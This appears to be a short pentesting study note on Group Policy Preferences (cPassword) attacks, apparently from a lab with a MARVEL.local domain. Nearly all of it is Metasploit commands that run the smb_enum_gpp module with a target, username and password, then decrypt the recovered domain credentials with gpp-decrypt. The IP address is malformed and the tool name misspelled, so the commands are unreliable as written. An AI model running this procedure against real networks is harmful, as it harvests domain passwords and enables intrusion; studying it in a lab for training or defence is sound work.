 # GPP/cPassword Attacks

## Usage
```bash
msfconsole
search smb_enum_gpp
use 0
options
set rhosts 192.16870.141
set smbUser fcastle
set SMBPass Password1
set smbdomain MARVEL.local
run
```
- collect encrypted password from output

```bash
gpp-decypt <encrypted password>
```